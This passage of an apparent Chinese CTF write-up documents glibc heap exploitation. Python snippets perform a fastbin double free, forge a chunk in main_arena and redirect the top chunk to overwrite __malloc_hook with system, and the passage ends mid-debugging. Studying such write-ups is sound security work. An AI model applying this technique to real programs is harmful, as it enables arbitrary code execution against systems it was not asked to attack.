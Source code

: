 malloc和free的流程如下

```python
c=malloc(0x58,"C")
d=malloc(0x58,"D")

free(c)
free(d)
free(c)

malloc(0x58,p64(libc.sym.main_arena+40))
malloc(0x58,"c")
malloc(0x58,"d")
```

这里的40是通过看0x50的chunk所在的位置`p &main_arena->fastbinsY[3]`



运行完毕之后查看fastbins

![image-20210310153723077](https://static.hack1s.fun/images/2021/03/10/image-20210310153723077.png)

发现这个地址好像没有对上，覆盖的那个地方应该是`7b80`，但是写的是`7b88`

所以第二次填充的那个再改一下，改成`libc.sym.main_arena+32`

这样从`0x7b80`开始就是一个符合chunk结构的fake chunk了

![image-20210401161229831](https://static.hack1s.fun/images/2021/04/01/image-20210401161229831.png)

目标就是修改掉红框中的这个

Arena的结构中有一个地方是指示了top chunk的

可以尝试通过在`main_arena`中修改掉top chunk的值，修改为`__malloc_hook`前面0x10字节

这样之后申请写入就是直接修改`__malloc_hook`了

![image-20210310161659389](https://static.hack1s.fun/images/2021/03/10/image-20210310161659389.png)

我们伪造的chunk的user data是从0x60开始的

所以首先要填充所有的fastbin，之后的一个字就是top chunk

所以再一次malloc修改top chunk，一次malloc修改`__malloc_hook`

```python
malloc(0x58,b"a"*0x10*3+p64(lib.sym.__malloc_hook-0x10))
malloc(0x28,p64(libc.sym.system))
```

结果发现报错了，说是corrupted top size

查看一下原因

![image-20210401165045099](https://static.hack1s.fun/images/2021/04/01/image-20210401165045099.png)

发现是在这里比较`__glibc_unlikely(size>av->system_mem)`之后才会进入到这里
